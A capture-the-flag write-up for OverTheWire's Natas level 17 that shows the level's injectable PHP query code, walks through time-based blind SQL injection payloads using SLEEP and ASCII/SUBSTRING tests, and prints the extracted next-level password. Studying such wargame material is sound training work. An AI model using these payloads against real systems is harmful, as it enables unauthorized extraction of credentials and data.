

# Natas Level 17
This level deals with time based SQL Injection.

## Quest
We are greeted with a simple webpage


Below is the backend code 
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);      // We get no output whatsoever
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

<br/><br/>
## Solution
Reading the code, we can say that we are not presented with any output whatever maybe our input.
So, for now only one thing comes to my mind - <span id=green>Time Based SQL Injection.</span><br/>

<br/>
Our Payload -> `username=natas18" AND SLEEP(10);#`
We recieve a delayed response if username `natas18` exists, which does and so our response comes after 10 seconds


Now we build a little complex query:
  Our Payload -> `username=natas18" AND IF(ASCII('a')=97, SLEEP(10),0);#`
If username `natas18` exists and ascii code of 'a' is 97, return a delayed response. (We get delayed response)


So, our Final payload to smuggle passwords is as follow:<br/>
    `username=natas18" AND IF(ASCII(SUBSTRING(password,1,1))=97,SLEEP(10),0);#`

Above, we found that first character of our password has ascii code 120, i.e. `x`. (using Burp intruder)
Also note that we filter using "_Response recieved_" column, that conveys the time interval b/w request and response.

Burp intruder settings are exactly same as we did in [Level 15](./Level15.md)

Repeat this 32 times, and we have our password. -> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
